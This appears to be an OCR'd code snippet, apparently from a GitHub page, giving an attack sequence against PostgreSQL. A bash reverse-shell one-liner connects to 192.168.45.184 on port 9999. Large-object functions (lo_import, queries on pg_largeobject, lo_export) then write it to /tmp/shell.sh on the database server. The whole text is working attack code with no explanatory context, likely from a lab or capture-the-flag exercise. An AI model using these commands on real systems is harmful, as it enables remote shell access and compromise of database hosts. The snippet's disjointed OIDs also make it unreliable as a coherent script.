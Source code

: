 1```
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/192.168.45.184/9999 0>&1' 

SELECT lo_import('/dev/stdin');


SELECT oid, lomowner, lomacl
FROM pg_largeobject_metadata;

SELECT loid, pageno, encode(data, 'hex') AS data_hex
FROM pg_largeobject
WHERE loid = 12345
ORDER BY pageno;


SELECT lo_export(oid, '/tmp/shell.sh') 
FROM pg_largeobject_metadata 
WHERE oid = 16503;


SELECT lo_export(12345, '/tmp/large_object_12345.bin');

```